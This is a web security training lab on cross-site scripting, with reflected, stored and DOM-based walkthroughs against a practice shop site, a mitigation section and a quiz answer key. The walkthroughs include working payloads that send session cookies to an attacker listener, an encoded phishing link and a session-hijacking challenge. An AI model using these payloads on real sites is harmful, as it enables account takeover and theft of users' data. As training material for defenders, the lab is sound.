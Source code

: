 # Web Application Penetration Testing: Cross-Site Scripting (XSS)

This lab introduces users to Cross-Site Scripting (XSS) attacks and discusses techniques for mitigating this type of vulnerability in web sites. 

In this alert, <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>, CISA provides the following definition for cross-site scripting vulnerabilities:

Cross-site scripting vulnerabilities arise when manufacturers fail to properly validate, sanitize, or escape inputs. These failures allow threat actors to inject malicious scripts into web applications, exploiting them to manipulate, steal, or misuse data across different contexts. Although some developers employ input sanitization techniques to prevent XSS vulnerabilities, this approach is not infallible and should be reinforced with additional security measures.`[1]`

Please see the recently released (January 23, 2025) CISA alert referencing a five-year-old vulnerability in jQuery that was added to their <a href="https://www.cisa.gov/known-exploited-vulnerabilities-catalog" target="_blank">Known Exploited Vulnerabilities Catalog</a> based on evidence of active exploitation.

- <a href="https://www.cisa.gov/news-events/alerts/2025/01/23/cisa-adds-one-known-exploited-vulnerability-catalog" target="_blank">CISA Adds One Known Exploited Vulnerability to Catalog</a>


| &#9201; LAB TIME                           |
| ------------------------------------------ |
| This lab is expected to take sixty (60) minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION                                              |
| ------------------------------------------------------------ |
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Understand cross-site scripting attacks and how they work.
 - Perform a reflected cross-site scripting attack.
 - Perform a stored cross-site scripting attack.
 - Perform a DOM-based cross-site scripting attack.
 - Review best practices to mitigate cross-site scripting attacks.

## Learner Expectations

 - Learners should be comfortable with Linux, web browsers, HTML, JavaScript and command-line operations.

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by managing the attack surface of internet accessible assets.

**NICE Work Roles**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Defensive Cybersecurity, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1563</a>: Implement system security measures
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies

<!-- cut -->

## Scenario

In this lab, you investigate common cross-site scripting attacks in web sites. You start the three most common cross-site scripting attack types: Reflected XSS, Stored XSS and DOM-based XSS. You walk through examples of how each of these attacks can be used against a web site followed with a discussion of best practices to defend against each. The lab concludes with a mini-challenge where you perform a cross-site scripting attack to take over a user's session and gain access to their credit card data.

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali Linux | user | tartans |

### What is Cross-Site Scripting?

According to OWASP, <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">Cross-Site Scripting can be defined as</a>:

Cross-Site Scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.`[2]`

## Phase 1: Cross-site Scripting Attacks

<details>
<summary>
<h3>What is a Reflected Cross-Site Scripting Attack?</h3>
</summary>
<p>

Reflected cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding. For example, a web site's search feature accepts user input that is then displayed as part of the search results. Let's break this down into a few simple steps.

1. A malicious actor enters JavaScript into the search textbox and submits their search request.
2. The script is sent to the web server and processed as regular text.
3. The script is returned to the client as part of the response.
4. The inclusion of this unvalidated and unencoded script could lead to execution in the client web browser.

</p>
</details>

<details>
<summary>
<h3>Reflected Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

Our goal in this part of the lab is to execute a reflected cross-site scripting attack. Based on the definition above, we need to find a place that will let us inject a script that will be processed on the server and then returned as part of the HTTP response. The first step is to locate a potential injection point. The market web site has a search feature that we will attempt to exploit.

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image1.png](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `PRODUCT SEARCH` link at the top of the page.

![s13-image2.png](./img/s13-image2.png)

4. (**Kali, Firefox**) Enter the following JavaScript into the text box and click the `Search` button.

```
<script>alert("xss");</script>
```

![s13-image3.png](./img/s13-image3.png)

5. (**Kali, Firefox**) This should produce an alert dialog box with the string `xss` displayed as the message. 

![s13-image4.png](./img/s13-image4.png)

The steps below indicate we have discovered a reflected cross-site scripting vulnerability: 
   - We entered JavaScript into the web site's `Search` field.
   - Clicking the `Search` button caused the web browser to make an HTTP POST to the web server.
   - The web server processed our request, then included the JavaScript in the results, which were executed when rendered by the browser.

What are some of the potential impacts of a reflected cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. For example, if an attacker knows you shop on the market web site, they could set up their own server as a listener and then create a phishing email with an encoded hyperlink that contains JavaScript. When executed, the script could add the target user's session cookie to a querystring that calls back to the malicious server, providing the attacker with a usable session token that could be used to log in and impersonate the target user. 

One of the difficult parts about using a reflected attack is timing. In the scenario above, if the targeted user is not currently logged in, they may not have an active session cookie that can be stolen. In the next section we discuss stored cross-site scripting attacks, which can make life easier for malicious actors because their dangerous scripts can be persisted and executed repeatedly by multiple users.


**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*

</p>
</details>

<details>
<summary>
<h3>What is a Stored Cross-Site Scripting Attack?</h3>
</summary>
<p>

Stored cross-site scripting, sometimes referred to as persistent cross-site scripting, occurs when a web site takes untrusted input and later displays that data without any form of validation or encoding. This allows a malicious actor to inject and store scripts that will later be accessed and executed when returned to a client browser.

An example of this would be when a web site accepts a product review, comment or blog post and then displays that text on the web site without using some form of validation or encoding. Let's provide an example with a few simple steps.

1. A malicious actor posts a product review that contains JavaScript similar to the following:

```
<script type="text/javascript">document.location="http://10.5.5.105/?c="+document.cookie;</script>
```

2. The product review for this item, or in our case the malicious script, is stored in the web site's product review database table.

3. Each time someone visits the web page that contains this text, the script will be executed and send a cookie to a server controlled by a malicious actor.

In the next section, you perform a stored cross-site scripting attack.

</p>
</details>

<details>
<summary>
<h3>Stored Cross-Site Scripting attack walk-through</h3>
</summary>
<p>

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image1.png](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `LOGIN` link on the top navigation menu. On the Login page, enter the following credentials, then click the `Login` button.

```
Email: bcampbell@skills.hub
Password: operating
```

![s13-image5-941250190.png](./img/s13-image5.png)

4. (**Kali, Firefox**) After logging in, you are redirected back to the market home page. Click the `View` link on one of the products. This takes you to a product detail page for that item where you can post a product review.

![s13-image6.png](./img/s13-image6.png)

![s13-image7.png](./img/s13-image7.png)

5. (**Kali, Firefox**) Click the `Add a Review` button.

![s13-image8.png](./img/s13-image8.png)

6. (**Kali, Firefox**) Select any number of stars from the `Rating` field.

![s13-image9.png](./img/s13-image9.png)

7. (**Kali, Terminal**) Before saving our review, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server listening on port 80.

```
python3 -m http.server 80
```

![s13-image10.png](./img/s13-image10.png)

8. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting `enter`. Your IP address is the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.113`, but your IP address may be different. Take note of this IP address because we need it in the next step.

![s13-image11.png](./img/s13-image11.png)

9. (**Kali, Firefox**) Go back to the product review page on the market web site. The `Review` text box looks like a great place to inject and store malicious JavaScript. Enter the following text in the `Review` field, making sure to replace the IP address of `10.5.5.113` with your IP address obtained in the previous step.

When this script executes the `document.cookie` command will retrieve the cookies from the web browser and those key/value pairs will be appended to the querystring in the URL. The `document.location` command will then redirect the user's web browser to our malicious web server on `10.5.5.113` with the cookie values included in the HTTP GET request. In the next step, you will see the results of the script execution.

```
<script type="text/javascript">document.location="http://10.5.5.113/?c="+document.cookie;</script>
```

![s13-image12.png](./img/s13-image12.png)

10. (**Kali, Firefox**) Click the `Submit Review` button to save your review. You are immediately redirected to `http://10.5.5.113/?c=PHPSESSID=0878tio7oh2jjdqmb1j8ckviaj`. Your IP address and PHPSESSID cookie value could be different, but the result should be the same. 

![s13-image13.png](./img/s13-image13.png)

11. (**Kali, Terminal**) Return to the terminal window running the Python web server. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![s13-image18.png](./img/s13-image18.png)

What just happened here? When you saved your product review, the script you entered was saved to the product review database. When the web site redirected you back to the product's detail page your script was executed.

The following steps below indicate that we have discovered a stored cross-site scripting vulnerability: 
   - We entered JavaScript into the product `Review` text box.
   - Clicking the `Submit Review` button saved your script as a product review.
   - When the web server redirected you back to the product details page all the product reviews were loaded. Due to the lack of encoding of the user-supplied text, the script in our review was executed.
   - The executed script grabbed the PHPSESSID cookie value and appended it to a querystring before redirecting the browser to our malicious web site. 
   - One of the most important things to note is that the script has been stored and will execute for every user that loads this page, potentially providing us with a large number of session IDs that we can use to authenticate as different users of the market web site.

What are some of the potential impacts of a stored cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site that the targeted user is allowed to perform. 

There are a few differences between stored and reflected cross-site scripting attacks:
 - In a stored XSS attack, the script is stored in the application in locations such as databases, files, logs, etc. There is no need for the attacker to use an external source to introduce the script.
  - In a stored XSS attack, the script can be executed repeatedly by multiple victims. For example, if a script is added to a product review, the script could be executed by every user that views that review.

**Knowledge Check Question 3**: *What ten-letter word is another name for stored cross-site scripting?*

In the next section, we discuss DOM-based cross-site scripting attacks.

</p>
</details>

<details>
<summary>
<h3>What is a DOM-based Cross-Site Scripting Attack?</h3>
</summary>
<p>

<a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">Invicti offers one of the better explanations of DOM-based cross-site scripting</a> on their web site: 

The DOM (Document Object Model) is an internal data structure that stores all the objects and properties of a web page. For example, every tag used in HTML code represents a DOM object. Additionally, the DOM of a web page contains information about such properties as the page URL and meta information. Developers may refer to these objects and properties using JavaScript and change them dynamically.

The Document Object Model is what makes dynamic, single-page applications possible. However, it is also what makes DOM-based cross-site scripting possible.

Unlike all other types of cross-site scripting, DOM-based XSS is purely a client-side vulnerability. This means that during a DOM-based XSS attack, the payload never reaches the server. The entire attack happens in the web browser.

DOM-based XSS is similar to reflected XSS because no information is stored during the attack. A DOM-based XSS attack is also conducted by tricking a victim into clicking a malicious URL. `[3]`

What is the difference between DOM-based cross-site scripting and reflected cross-site scripting?

The most important difference between these XSS techniques is where the attack is injected. Reflected cross-site scripting attack payloads are injected on the server side while DOM-based payloads are injected on the client/browser side.

</p>
</details>

<details>
<summary>
<h3>DOM-based Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

What are some of the potential impacts of a DOM-based cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. Because reflected and stored cross-site scripting attacks both involve server side interaction, evidence of these kinds of attacks can be logged and potentially even mitigated using tools such as Web Application Firewalls (WAF). In a DOM-based attack, all the execution takes place on the client side, thus there are often fewer logs and artifacts left behind after this kind of attack.

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub/promos.php`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image14.png](./img/s13-image14.png)

3. (**Kali, Firefox**) You should be looking at a page similar to the screen capture below. Here we can see a list of current promotions, including a link at the bottom of the page that says `Apply Coupons`. When the `Apply Coupons` link is clicked, you are greeted with a dialog box that says `Coupons applied to your account!`. 

![s13-image15.png](./img/s13-image15.png)

4. (**Kali, Firefox**) Let's see if we can exploit this. Right click on the `Apply Coupons` link and select `Inspect` from the menu. The HTML code associated with this button looks like this:

```
<a id="couponlink" href="#" onclick="alert('Coupons applied to your account!');">Apply Coupons</a>
```

![s13-image16.png](./img/s13-image16.png)

5. (**Kali, Firefox**) Below the link we can see a `<script>` tag. Let's expand this.

```
const params = new URLSearchParams(window.location.search);
const action = params.get("apply");
if (action) {
      document.getElementById("couponlink").setAttribute("onclick", action);
   }
   else {
      document.getElementById("couponlink").setAttribute("onclick", "alert('Coupons applied to your account!');");
   }
```

![s13-image17.png](./img/s13-image17.png)

6. (**Kali, Firefox**) Based on the code, we can see that if there is a query string value named `apply` we can modify the behavior of the `onclick` event of this link.

7. (**Kali**) Before we go any further, let's start our malicious web server that will be used to collect session IDs from those that click on our phishing email. We will provide additional details about that in later steps.

8. (**Kali**) Open a terminal window and get the IP address of your Kali machine by typing `ip a`. Look at the IP address associated with `eth0`. In our case it is `10.5.5.113`, but your IP address may be different.

![s13-image11.png](./img/s13-image11.png)

9. (**Kali**) Enter the following command in your terminal window to start a local web server listening on port 9000 on your Kali machine.

```
python3 -m http.server 9000
```

![s13-image19.png](./img/s13-image19.png)

10. (**Kali, Firefox**) Imagine the scenario where a malicious actor creates a link in a phishing email with the hopes of capturing an actively logged-in user's session ID so they can impersonate them on the market web site. We can begin by creating a link like the one below. Make sure to replace the IP address of `10.5.5.113` with the IP address of your Kali VM from Step 8.

```
http://market.skills.hub/promos.php?apply=window.location.href=%27http://10.5.5.113:9000?session=%27%2Bdocument.cookie;
```

When a user clicks the link above that would be included in the email, they are taken to the `promos.php` page. The JavaScript on the page executes and modifies the link based on the code included in the `apply` querystring value. Once the user clicks the `Apply Coupons` page, the `onclick` event fires and the user's browser is redirected to a malicious web server (`http://10.5.5.113:9000`) with the current session cookie value included in the `session` querystring value.

![s13-image20.png](./img/s13-image20.png)

It would probably be a good idea for the malicious actor to take one additional step to obfuscate the link by URL encoding it. We can do that with tools such as CyberChef. This step is not necessary for this lab, thus the details of how to do this will not be covered here.

```
http%3A%2F%2Fmarket%2Eskills%2Ehub%2Fpromos%2Ephp%3Fapply%3Dwindow%2Elocation%2Ehref%3D%2527http%3A%2F%2F10%2E5%2E5%2E113%3A9000%3Fsession%3D%2527%252Bdocument%2Ecookie%3B
```

11. (**Kali, Firefox**) To simulate being the victim of this phishing scam, open a new browser window and paste the link you created in Step 10 into the URL bar then hit `enter`. 

![s13-image20.png](./img/s13-image20.png)

12. (**Kali, Firefox**) You are taken to the `promos.php` page of the market web site. Click the `Apply Coupons` link.

13. (**Kali, Firefox**) Notice that you have been redirected to the malicious web server running on your Kali machine. Note that the URL contains a querystring value named `session` which contains the `PHPSESSID` cookie value. 

```
http://10.5.5.113:9000/?session=PHPSESSID=9iv85t3j2uri6p3j4jn5spnb7v
```

![s13-image21.png](./img/s13-image21.png)

14. (**Kali, Terminal**) Return to the terminal window running the Python web server on port 9000. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![s13-image22.png](./img/s13-image22.png)

Had this user been logged in to the market web site, you could place that `PHPSESSID` value in your own cookie for the market web site and impersonate them without further authentication.

**Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*

In the next section, we discuss cross-site scripting mitigation techniques.

</p>
</details>

<br />

## Phase 2: Mitigation Techniques

<details>
<summary>
<h3>Mitigation Techniques</h3>
</summary>
<p>

Phase 1 of this lab covered several ways to perform cross-site scripting attacks against a web site. Phase 2 covers seven ways to help prevent this class of attacks. They are:

1. Use modern frameworks
2. Encode output
3. Validate input
4. Sanitize HTML / Whitelisting
5. Content Security Policy (CSP)
6. Web application firewalls
7. Cookie attributes

#### Use Modern Frameworks

Modern web frameworks such as React, Angular, Vue.js, ASP.NET and others provide many built-in features to help mitigate cross-site scripting attacks. They provide safe default methods to encode and escape potentially dangerous output. Keep in mind that developers can override and bypass these options, so the use of a framework does not guarantee the prevention of cross-site scripting vulnerabilities. It is not uncommon for bugs to be found that allow malicious actors to bypass the default protections provided by frameworks. It is important to keep third-party software and libraries updated.

#### Encode Output

In order to help prevent cross-site scripting attacks, all untrusted and user-supplied data should be treated as potentially malicious. Before displaying this data on a web page, you should consider escaping and encoding the output. 

- As mentioned above, using modern frameworks can provide a lot of help as they are widely used and well tested. Trying to build your own framework or library to handle cross-site scripting is not recommended.

- HTML encoding can be used to replace special characters like `<` and `>`. An example would be encoding this: `<script>alert('XSS');</script>` to: `&lt;script&gt;alert('XSS');&lt;/script&gt;`

The most commonly encoded characters and their conversions include:

| Character | HTML Entity      |
|-----------|------------------|
| `<`       | `&lt;`           |
| `>`       | `&gt;`           |
| `&`       | `&amp;`          |
| `"`       | `&quot;`         |
| `'`       | `&#x27;`         |

#### Validate Input

Input validation is the process of verifying that all data entered into a system by external sources is in a safe and expected format. <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">A more detailed explantion</a> offered by the OWASP foundation is provided below:

Goals of Input Validation  
Input validation is performed to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. Input validation should happen as early as possible in the data flow, preferably as soon as the data is received from the external party.

Data from all potentially untrusted sources should be subject to input validation, including not only Internet-facing web clients but also backend feeds over extranets, from suppliers, partners, vendors or regulators, each of which may be compromised on their own and start sending malformed data.

Input Validation should not be used as the primary method of preventing XSS, SQL Injection and other attacks which are covered in respective cheat sheets but can significantly contribute to reducing their impact if implemented properly.

Input Validation Strategies  
Input validation should be applied at both syntactic and semantic levels:

Syntactic validation should enforce correct syntax of structured fields (e.g. SSN, date, currency symbol).
Semantic validation should enforce correctness of their values in the specific business context (e.g. start date is before end date, price is within expected range).
It is always recommended to prevent attacks as early as possible in the processing of the user's (attacker's) request. Input validation can be used to detect unauthorized input before it is processed by the application. `[7]`

#### Sanitize HTML

This technique is very similar to and works in conjunction with the steps listed above in the `Encoding Output` section. To sanitize HTML, you need to remove or modify HTML elements, attributes and scripts that are potentially dangerous. 

- Use libraries such as `DOMPurify` to sanitize HTML. This library is written in JavaScript and works with most modern web browsers. You can find additional information <a href="https://github.com/cure53/DOMPurify" target="_blank">here</a>.

- Whitelisting is a technique that involves allowing only specific HTML elements and attributes considered safe to be displayed. Any output that is not specifically allowed on the whitelist should either be safely encoded or removed.

#### Content Security Policy

A Content Security Policy (CSP) is a feature that exists in most modern web browsers to help prevent cross-site scripting by limiting the resources a browser loads. This feature works by configuring the web server to add a Content-Security-Policy HTTP response header that contains one or more directives such as: `default-src`, `img-src`, `style-src`, `object-src`, `base-uri`, `strict-dynamic`, `frame-ancestors`

For detailed discussions of Content Security Policy information, read the following documents: <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP" target="_blank">Content Security Policy</a> and <a href="https://portswigger.net/web-security/cross-site-scripting/content-security-policy" target="_blank">PortSwigger: Content security Policy</a>.

#### Web Application Firewalls

Web Application Firewalls (WAF) act as a reverse-proxy server sitting in front of a web site and are used to intercept and monitor HTTP traffic. By monitoring HTTP traffic headed inbound to the server from the internet, WAFs can be configured to filter strings suspected of containing XSS, SQL injection and other similar types of attacks. However, due to their location, they can't defend against clients-side cross-site scripting attacks such as DOM-based XSS. 

#### Cookie Attributes

Cookie attributes provide additional information about a cookie that instructs web browsers how to handle a cookie. They provide details that determine everything from the lifespan to the security of the cookie. 

The `HttpOnly` attribute helps protect cookies from cross-site scripting (XSS) attacks by instructing the browser that the cookie should not be accessible via client-side scripts. In the event that a script executes on the client-side, it cannot access a protected cookie and may help reduce leaking sensitive data.

The `Secure` attribute indicates that cookies should only be sent using HTTPS. While most web sites have begun using HTTPS by default, cookies should still have the Secure directive explicitly enabled.

The `Expires` and `Max-Age` cookie attributes should be configured so cookies expire as soon as they are no longer needed. Login cookies and session identifiers, in particular, should be set to expire as quickly as possible.

The `SameSite` cookie attribute forbids the browser from sending cookies to a third-party web site via cross-origin requests. Where possible, it is recommended that you set  `SameSite=Strict`. This causes the web browser to only send cookies for first party context requests. This means the requests must originate from the site that set the cookie, based on the URL.

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*

## Additional Resources

Protecting against cross-site scripting is hard. As is true in most security contexts, taking a multi-layered approach will provide the best results, but may not guarantee that all vulnerabilities have been addressed. The mitigation techniques discussed here are not a complete list and only provide a high-level overview of each of the topics. We encourage you to follow the links and resources provided to learn more about each subject.

<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" target="_blank">Cross Site Scripting Prevention Cheat Sheet</a>

<a href="https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html" target="_blank">DOM based XSS Prevention Cheat Sheet</a>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Exploit the `SITE FEEDBACK` feature of the market web site (`http://market.skills.hub/feedback.php`) to execute a stored cross-site scripting vulnerability.
- Use stored cross-site scripting to send a logged-in user's `PHPSESSID` cookie value to a server you control, such as a web server or netcat listener. 
- Use this cookie to impersonate another market user and obtain the last 4 digits of their credit card number from their profile page.
  - Cookies are available in Firefox under the `Storage` tab of the `Web Developer Tools`. 

- Once you have added and tested your malicious script, navigate to `https://skills.hub/lab/tasks` and click the `Submit` button to test your exploit. 

![s13-image23.png](./img/s13-image23.png)

- You can click the `Refresh` button that appears to check the status of the test.

![s13-image24.png](./img/s13-image24.png)

- After the following message appears under the `Status` column, return to the market web site and use your captured `PHPSESSID` cookie value to obtain the targeted user's credit card data.

```
Success -- The user browsed the feedback site with their session token.
```

![s13-image25.png](./img/s13-image25.png)

### Grading Check

**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*

`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can reference the solution guide using the link below.*

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

This lab provided hands-on experience with common cross-site scripting (XSS) attacks and their defenses. You started with reflected cross-site scripting attacks, then continued with stored and DOM-based attacks. These exercises demonstrated how attackers can exploit various types of cross-site scripting vulnerabilities and how proper mitigation techniques can help reduce these vulnerabilities. 

During this lab, you:

 - Creating reflected, stored and DOM-based cross-site scripting attacks for understanding
 - Using and even combining these different scripting attacks to achieve various results
 - Mitigating techniques you can use to protect websites from those attack methods

Skills exercised:

- S0248: Skill in performing target system analysis
- S0440: Skill in identifying target vulnerabilities
- S0504: Skill in identifying vulnerabilities
- S0667: Skill in assessing security controls
- S0544: Skill in recognizing vulnerabilities

### References

- [1] <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>

- [2] <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP Cross-Site Scripting</a>

- [3] <a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">DOM-based cross-site scripting</a>

- [4] <a href="https://portswigger.net/web-security/cross-site-scripting/reflected" target="_blank">Reflected XSS</a>

- [5] <a href="https://portswigger.net/web-security/cross-site-scripting/stored" target="_blank">Stored XSS</a>

- [6] <a href="https://portswigger.net/web-security/cross-site-scripting/dom-based" target="_blank">DOM-based XSS</a>

- [7] <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">OWASP Input Validation Cheat Sheet</a>

- [8] <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" target="_blank">XSS Filter Evasion Cheat Sheet</a>

- [9] <a href="https://gchq.github.io/CyberChef/" target="_blank">CyberChef</a>

- [10] <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>

- [11] <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>


<details>
<summary>
<h3>Answer Key</h3>
</summary>
<p>

**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*
 - *`XSS`*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*
 - *`reflected`*

**Knowledge Check Question 3**: *What 10 letter word is another name for stored cross-site scripting?*
 - *`persistent`*

 **Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*
  - *`document object model`*

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*
 - *`&amp;`*

</p>
</details>
